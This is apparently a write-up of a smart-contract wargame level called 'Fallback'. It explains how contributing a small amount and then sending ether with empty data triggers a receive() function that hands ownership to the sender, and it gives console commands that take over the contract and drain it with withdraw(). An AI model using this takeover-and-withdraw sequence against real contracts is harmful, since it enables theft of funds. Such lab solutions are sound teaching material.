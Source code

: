 - There is a logic error in the contract. By sending `0.0001` eth to it without including any data we can enter the `receive()` function and it will change the owner of the contract to our address.


```bash
// call contribute() with the right amount of ether to pass the condition.
> await contract.contribute({value:toWei("0.0001", "ether")})

// since the contract has a payable fallback receive function we will just send a
// transaction to the contract with some amount of ether and empty data(so that the
// fallback function is called)

// replace the contract address by the one you got when starting the level, and replace the address to send eth from by your own testnet address.
> await web3.eth.sendTransaction({to:"THE CONTRACT 0x000 ADDRESS", value:toWei("0.0001", "ether"), from:"YOUR 0x000 ADDRESS"})

(example: await web3.eth.sendTransaction({to:"0x03e95A7EC5F0A70b0855CcBBc2EE428d5a4A3147", value:toWei("0.0001", "ether"), from:"0xe071EeD2EB7CA3514e40d81533046aa90D12f768"}))

// in the "owner" storage variable we will see our address now!!
> await contract.owner()
'0xe071EeD2EB7CA3514e40d81533046aa90D12f768'

// withdraw everything using the withdraw() function
> await contract.withdraw() 
```

Level is completed.

<br/>
<p align="center">